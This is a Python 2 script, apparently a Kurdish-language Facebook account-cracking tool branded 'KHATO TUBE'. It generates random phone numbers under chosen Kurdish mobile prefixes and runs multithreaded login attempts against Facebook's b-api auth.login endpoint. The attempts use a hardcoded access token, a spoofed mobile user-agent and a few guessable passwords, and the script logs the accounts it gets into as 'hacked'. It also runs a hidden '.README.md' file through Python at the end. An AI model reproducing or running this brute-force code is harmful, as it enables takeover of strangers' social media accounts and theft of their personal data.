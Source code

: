 import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(100000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 nmbr.py')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print '[!] Exit'
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')


logo = logo ="""
\033[1;93m  _  ___    _       _______ ____    _______ _    _ ____  ______ 
 | |/ / |  | |   /\|__   __/ __ \  |__   __| |  | |  _ \|  ____|
 | ' /| |__| |  /  \  | | | |  | |    | |  | |  | | |_) | |__   
 |  < |  __  | / /\ \ | | | |  | |    | |  | |  | |  _ <|  __|  
 | . \| |  | |/ ____ \| | | |__| |    | |  | |__| | |_) | |____ 
 |_|\_\_|  |_/_/    \_\_|  \____/     |_|   \____/|____/|______|                                                              
\033[1;97m  
\033[1;97m          SLAMW 7ALAYKWM
\033[1;97m  CHONN BASHNN HEWAM BASHI HAMW LAYAKA
\033[1;97m       YAKAM TOOLE CHANALAKAMAN 
\033[1;97m   AM TOOLAYA HEWADARM SWDE LEBBENN
"""
CorrectUsername = '****'
CorrectPassword = '****'
os.system('clear')
print logo
loop = 'true'
while loop == 'true':
    username = raw_input('\x1b[1;97m\xe2\x9e\xa3\x1b\x1b[31;1m USERNAME: ')
    if username == CorrectUsername:
        password = raw_input('\x1b[1;97m\xe2\x9e\xa3\x1b\x1b[31;1m PASSWORD: ')
        if password == CorrectPassword:
            print '\x1b[1;92m[\xe2\x9c\x93] RASTA BRO BASHE DWATR '
            time.sleep(3)
            loop = 'false'
        else:
            print 'PASS HALAYA'
    else:
        print 'USER HALAYA'
os.system("xdg-open https://youtu.be/cqs7VCOcmdE")

back = 0
successful = []
cpb = []
oks = []
id = []

def menu():
    os.system('clear')
    print logo
    print 60 * '\x1b[1;97m='
    print '\x1b[1;93m[1]\x1b[1;93m ZHMARAKANI KURDISTAN      \x1b[1;97m\xe2\x87\x8b        \x1b[1;93m[YT]\x1b[1;93m KHATO TUBE '
    print 60 * '\x1b[1;97m='
    action()


def action():
    global cpb
    global oks
    bch = raw_input('\n\x1b[1;93m ZHMARA YAK HALBZHERA  \x1b[1;93m>>>\x1b[1;97m  ')
    if bch == '':
        print '[!] HALAYA'
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print 60 * '\x1b[1;93m='
        print '\x1b[1;97m 0770, 0750, 0773, 0751, 0771, 0772, 0780, 0781, 0782, 0783'
        try:
            c = raw_input(' CODEK HALBZHERA  : ')
            k = ''
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] HALAYA'
            raw_input('\n[ Back ]')
            menu()
    elif bch == '0':
        exb()
    else:
        print '[!] HALAYA'
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] GSHT RAQAMAKAN: ' + xxx)
    time.sleep(0.1)
    psb('\x1b[1;91m[\xe2\x9c\x93]\x1b[1;97m BWASTA GARNA BO DARAWA  QA BELA BO BAWKME NAKAI HHHHH...')
    time.sleep(0.1)
    psb('[!] BO WASTAN DNI TOOLAKA  [CTRL + Z] DAGRA')
    time.sleep(0.5)
    print 60* '\x1b[1;93m='

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m[HACKED BY KHATO TUBE]\x1b[1;93m ' + k + c + user + ' >>> ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;97m[NABETAWA]\x1b[1;97m ' + k + c + user + ' >>> ' + pass1 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m[HACKED BY KHATO TUBE]\x1b[1;93m ' + k + c + user + ' >>> ' + pass2 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass2 + '\n')
                okb.close()
                oks.append(c + user + pass2)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;97m[NABETAWA]\x1b[1;97m ' + k + c + user + ' >>> ' + pass2 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass2 + '\n')
                cps.close()
                cpb.append(c + user + pass2)
            else:
                pass3 = '1234554321'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m[HACKED BY KHATO TUBE]\x1b[1;93m ' + k + c + user + ' >>> ' + pass3 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass3 + '\n')
                okb.close()
                oks.append(c + user + pass3)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;97m[NABETAWA]\x1b[1;97m ' + k + c + user + ' >>> ' + pass3 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass3 + '\n')
                cps.close()
                cpb.append(c + user + pass3)
            else:
                pass4 = '112233445566'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m[HACKED BY KHATO TUBE]\x1b[1;93m ' + k + c + user + ' >>> ' + pass4 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass4 + '\n')
                okb.close()
                oks.append(c + user + pass4)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;97m[NABETAWA]\x1b[1;97m ' + k + c + user + ' >>> ' + pass4 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass4 + '\n')
                cps.close()
                cpb.append(c + user + pass4)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print 42 * '\x1b[1;91m='
    print '[\xe2\x9c\x93]\x1b[1;93m HACKKRDNAKA TAWAW BW ....'
    print '[\xe2\x9c\x93]\x1b[1;92m AWANAI HACK BW/\x1b[1;96mNABETAWA : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93]\x1b[1;91m CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[ENTER BKAW XWAT LAGAL]')
    os.system('python2 .README.md')
if __name__ == '__main__':
    menu()
